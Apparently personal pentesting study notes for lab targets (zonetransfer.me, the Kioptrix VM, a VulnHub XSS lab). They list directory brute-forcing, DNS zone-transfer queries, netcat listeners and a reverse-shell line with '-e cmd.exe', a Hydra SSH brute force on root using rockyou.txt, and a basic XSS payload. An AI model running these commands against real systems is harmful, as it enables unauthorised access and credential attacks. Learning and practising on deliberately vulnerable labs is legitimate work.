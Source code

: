 ```dirsearch -u <url>```
Zonetransfer information

    host -l zonetransfer.me <name server>

gives you unique dns/ip addresses

*dnsrecon*

    dnsrecon -d zonetransfer.me -t axfr
    axfr - for Zonetransfer

*dnsenum*

    dnsenum zonetransfer.me

its more clean and faster as the other ones

**other types**

    -FTP
    -SNMP
    -SMTP

**NetCat**

try connect to an open port
    
    nc -nv <ip> <port>

listening shell

    nc -nvlp <port>

connect

    nc -nv <ip> <port> -e cmd.exe
    -e execute


**Bruteforce attacks**

*Hydra for SSH*

Sample to attack Kioptrix

    locate wordlists

    hydra -v -l root -P /usr/share/wordlists/rockyou.txt <ip> ssh

    -v - verbose mode
    -P - Passwordlist

**XSS and MySQL FILE**

https://www.vulnhub.com/entry/pentester-lab-xss-and-mysql-file,66/ 
Only ISO for 64 bit
Debian 64 and Live image

*XSS*

    <script>alert('xss')</script>

create index.php and put it in the home directory of the user you will run it with
```